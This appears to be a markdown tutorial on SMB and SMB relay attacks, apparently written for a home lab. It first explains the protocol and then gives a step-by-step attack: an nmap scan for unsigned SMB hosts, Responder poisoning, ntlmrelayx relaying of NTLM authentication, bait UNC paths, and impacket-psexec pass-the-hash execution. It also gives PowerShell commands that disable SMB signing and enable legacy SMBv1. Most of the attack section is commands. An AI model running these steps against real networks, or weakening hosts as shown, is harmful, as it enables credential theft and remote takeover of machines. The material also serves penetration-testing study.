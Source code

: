 ### What is SMB?

* **SMB (Server Message Block)** is client-server protocol used for sharing files, printer and other resources on a network.
* **Application** and **presentation layers**. But relies heavily on lower level protocols. 
* SMB is responsible for operations like. 
  * File sharing. 
  * Remote documentation editing.
  * Printer status alerts. (e.g. out of paper) 

---

### SMB Details 

* Uses **TCP port 445**. 
* **DNS** handles address resolution on larger networks. 
* **LLMNR (Local link multicast name resolution)** is used in smaller networks. 
* Typical SMB communication sequence. 
    1. NetBIOS session established. 
    2. Server and client negotiate SMB protocol dialect. 
    3. Client logs on to the server. 
    4. The client connects to a shared resource. 
    5. Client opens a file. 
    6. Client reads/edits the file. 


---

### What is an SMB relay attack? 

* Exploits the NTLM challenge-response authentication. 
* Attaker sits between client and server to relay captured authentication requests to another host.  
* Commonly affect systems where SMB signing is disabled. 
* Attacks work because MTLM does not verify that a server is who it claims to be. 

---

### Enabling SMBv1 feature. 

To use SMBv1 protocol, first enable the feature on your system.

```powershell
powershell.exe -nop -ep bypass 
```

```powershell
Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol -NoRestart
```

* ``-Online`` Specifies that the command applies to the running operating system. 
* ``-FeatureName SMB1Protocol`` That the SMBv1 feature will be enabled.  
*  ``-NoRestart`` Prevents the system from restarting automatically after installation. 
  
**Example**

Use this command when connecting to legacy systems or devices that only support SMBv1. 

---

### Configuring SMBv1 in server settings. 

After installing the SMBv1 feature, configure the server to allow SMBv1 communication. 

```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $true -Force
```

* ``-EnableSMB1Protocol $true`` enables SMBv1 support on the server. 
* ``-Force`` Suppresses confirmation prompts. 

**Example**

Useful if specific applications or services required. SMBv1 to communicate properly. 

---

### Verifying SMBv1 status. 

After enabling SMBvone, verify that the protocol is active. 

```powershell
Get-SmbServerConfiguration | Select-Object EnableSMB1Protocol
```

* ``Get-SmbServerConfiguration`` Retrieves the current SMB server configuration. 
* ``Select-Object EnableSMB1Protocol`` Filters the output to display only the SMBv1 status. 

**Tip**
Use this to confirm if SMBv1 is properly enabled without listing all SMB settings. 
Do same to enable SMB version 2 and version 3. 

---

### Prerequisite. 

* SMB signing must be disabled on the target system. 
* NTLM authentication must be in use. 
* Local administrator access is required on the target for full exploitation and command execution. 

---

### Scan for vulnerable hosts. How? 

```bash
nmap -Pn --open --script=smb2-security-mode.nse -p 445, <IP> 
```

---

### Attack Steps. 

#### Step 1: Start Responder.  

Backup and edit responder config (if needed)

```bash
cp /usr/share/responder/Responder.conf /usr/share/responder/Responder.conf.bak
```

```bash
vim /usr/share/responder/Responder.conf
```

```bash
responder -I eth0 -dwv
```

#### Step 2. Setup NTLMRelay. 

* Create a file with target IPs. 

```bash
ntlmrelayx.py -t <IP> -smb2support -i
```

```bash
echo <IP> > targets-ip.txt
```

* Run ntlmrelayx with SMB 2 support. 

```bash
ntlmrelayx.py -t <IP> -smb2support -i
```

#### Step 3. Trigger authentication from client.  

* Try to access non existent or bait hosts.

```bash
\\pikachu.pokemon.local
\\raichu.pokemon.local
\\s1.local
\\192.168.2.1
```

---

### Optional : Use ``impacket-psexec`` to execute commands. 

```cmd
impacket-psexec drake@192.168.29.229 -hashes <hash>
```

---


### Windows commands to enable disable SMB signing. 

#### Disable SMB signing. 

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $false
Get-SmbServerConfiguration | Select RequireSecuritySignature
```

#### Unable SMB signing. 

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $true
Get-SmbServerConfiguration | Select RequireSecuritySignature
```

#### Enable SMB 1/SMB 2 protocols (if needed). 

```powershell
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
Set-SmbServerConfiguration -EnableSMB1Protocol $true
Set-SmbServerConfiguration -EnableSMB2Protocol $true
```

